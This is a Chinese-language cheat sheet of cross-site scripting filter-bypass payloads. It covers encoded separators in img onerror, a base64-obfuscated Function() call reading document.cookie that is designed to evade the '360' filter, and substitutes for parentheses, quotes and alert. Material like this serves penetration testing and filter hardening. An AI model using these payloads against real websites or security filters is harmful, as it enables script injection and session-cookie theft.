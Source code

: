 <html><img**AA**src**AA**onerror**BB**=**BB**alert**CC**(1)**DD**</html>

A位置可填充 /，/123/，%09，%0A，%0C，%0D，%20 B位置可填充 %09，%0A，%0C，%0D，%20 C位置可填充 %0B，/**/，如果加了双引号，则可以填充 %09，%0A，%0C，%0D，%20 D位置可填充 %09，%0A，%0C，%0D，%20，//，>

### 语言特性

JS有一个特性是Function()(); 你没看错，大写的Function和小写的function其含义有所不同。

对于Function()来说，写在其第一个括号内的JS语句会被直接执行。比如说我们可以试试

```javascript
Function(alert(‘1’))();
```

为了防止360再拦，还是要做的周全一点，还有一个小技巧就是反引号其实可以用于代替括号使用，为了让效果更炸裂一点，我们把alert(1)换成alert(document.cookie)。所以我们最终可以构造这么一个语句

```javascript
';Function(atob`YWxlcnQoZG9jdW1lbnQuY29va2llKQ`)();//
```

#### 圆括号过滤绕过

##### 0x01. 反引号替换

```
<script>alert`1`</script>
```

##### 0x02. throw 绕过

```
<video src onerror="javascript:window.onerror=alert;throw 1">
<svg/onload="window.onerror=eval;throw'=alert\x281\x29';">
```

#### 单引号过滤绕过

##### 0x01. 斜杠替换

```
<script>alert(/xss/)</script>
```

##### 0x02. 反引号替换

```
<script>alert(`xss`)</script>
```

#### alert 过滤绕过

##### 0x01. prompt 替换

```
<script>prompt(/xss/)</script>
```
